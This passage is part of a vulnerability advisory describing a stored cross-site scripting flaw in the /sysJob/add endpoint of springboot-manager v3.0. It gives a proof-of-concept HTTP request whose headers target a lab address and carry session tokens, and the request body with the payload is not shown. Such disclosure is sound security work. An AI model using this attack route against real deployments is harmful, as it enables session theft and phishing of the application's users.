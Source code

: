 ![image-20250228215614838](assets/image-20250228215614838.png)

### 1.5 `/sysJob/add` Stored cross-site scripting

[Affected version]

v3.0



[Affected Component]

/sysJob/add



[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0



[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysJob/add` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysJob/add HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 114
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysJob
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

```